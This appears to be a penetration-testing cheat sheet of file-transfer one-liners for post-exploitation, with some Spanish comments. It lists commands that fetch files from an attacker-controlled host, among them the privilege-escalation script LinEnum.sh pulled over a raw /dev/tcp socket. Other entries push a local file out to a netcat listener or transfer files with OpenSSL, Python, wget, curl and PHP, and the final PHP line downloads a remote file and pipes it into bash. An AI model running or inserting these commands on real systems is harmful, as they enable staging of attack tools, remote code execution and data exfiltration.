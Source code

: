 ## Bash

```bash
# Connect to Target's Webserver
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET Request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

Print the Response
cat <&3
```

## Bash (TCP)

```bash
cat < <file> > /dev/tcp/<ip>/<port>

# Escucha
nc -nlvp <port> > <file>
```

## OpenSSL


```bash
# Create certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Stand up server
openssl s_server -quiet -accept <port> -cert certificate.pem -key key.pem < <file>

# Download file
openssl s_client -connect <ip>:<port> -quiet > <file>
```

## Python 3

```python
~ python3
>> import urllib.request
>> urllib.request.urlretrieve("http://<ip>/<file>", "<output>")
````

## Python 2

```python
~ python3
>> import urllib
>> urllib.urlretrieve ("http://<ip>/<file>", "<output>")
````

## Wget

```bash
wget http://<ip>/<file> 
wget http://<ip>/<file> -O <file>
```

## Curl

```bash
curl -o <output> http://<ip>/<file>
```

## PHP

### File_get_contents()

```bash
php -r '$file = file_get_contents("<ip>/<file>"); file_put_contents("<file>",$file);'
```

### Fopen()

```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("http://<ip>/<file>", "rb"); $flocal = fopen("<output>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

### Php curl

```bash
php -r '$rfile = "http://<ip>/<file>"; $lfile = "<output>"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
```

```bash
 php -r '$lines = @file("http://<ip>/<file>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
